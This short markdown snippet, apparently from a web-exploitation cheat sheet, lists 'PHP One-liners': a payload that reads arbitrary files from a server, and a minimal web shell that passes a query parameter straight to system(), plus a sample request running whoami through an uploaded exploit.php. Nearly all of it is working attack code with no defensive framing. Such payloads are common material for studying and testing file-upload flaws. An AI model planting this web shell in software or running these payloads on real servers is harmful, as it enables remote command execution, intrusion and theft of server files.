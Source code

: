 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter:

`<?php echo system($_GET['command']); ?>`
  `GET /path-to-file/exploit.php?command=whoami HTTP/1.1`



